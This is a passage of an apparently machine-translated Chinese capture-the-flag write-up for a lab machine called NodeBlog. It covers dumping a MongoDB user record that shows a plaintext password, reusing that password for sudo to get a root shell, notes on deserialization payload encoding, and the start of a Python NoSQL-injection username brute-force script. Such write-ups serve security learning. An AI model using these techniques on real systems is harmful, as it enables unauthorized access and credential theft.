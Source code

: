 
虽然我可以从中获取密码，但阅读起来会很好：`bsondump`

    admin@nodeblog:/dev/shm$ bsondump dump/blog/users.bson
    {"_id":{"$oid":"61b7380ae5814df6030d2373"},"createdAt":{"$date":"2021-12-13T12:09:46.009Z"},"username":"admin","password":"IppsecSaysPleaseSubscribe","__v":0}
    2022-01-11T00:43:37.566+0000    1 objects found
    

### 苏多苏

事实证明，管理员在网站和主机之间重复使用其密码，因为它在提示时起作用：`sudo`

    admin@nodeblog:/dev/shm$ sudo -l
    [sudo] password for admin: 
    Matching Defaults entries for admin on nodeblog:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User admin may run the following commands on nodeblog:
        (ALL) ALL
        (ALL : ALL) ALL
    

而且，管理员可以以root身份运行任何内容。 将返回一个根外壳：`sudo su`

    admin@nodeblog:/dev/shm$ sudo su
    root@nodeblog:/dev/shm#
    

我可以读到：`root.txt`

    root@nodeblog:~# cat root.txt
    8c01d129************************
    

## 超越根

### 反序列化有效负载中的错误字符

对于反序列化有效负载，当我在Burp中使用ctrl-u对关键字符进行“编码”时，有效负载不起作用。当我对所有字符进行编码时，它确实进行了编码。我想弄清楚是什么打破了它。我将[在本视频](https://www.youtube.com/watch?v=MT3wwqIAU1c)中进行一些探讨：

答案是两件事。如果没有编码，它会因为 .这表示HTTP中饼干的结束，因此破坏了事情。因此，当我按Ctrl-u时，这是固定的。但是 ctrl-u 也用 替换空格，这似乎也破坏了这个应用程序。用空格 或 替换它们时，有效负载工作正常。`;``+``%20`

故事的寓意 - 注意编码。

### 数据采集

我能够使用NoSQL注入来绕过登录表单上的身份验证。我还可以使用它来枚举查询中使用的至少字段。我从一个脚本开始，该脚本将给我盒子上的所有帐户。

    #!/usr/bin/env python3
    
    import requests
    import string
    
    
    def brute_username(user):
        for c in string.ascii_lowercase:
            print(f'\r{user}{c:<50}', end='')
            payload = { 'user':
                           { '$regex' : f'^{user}{c}' },
                        'password': '0xdf'
                      }
            resp = requests.post('http://10.10.11.139:5000/login', json=payload)
    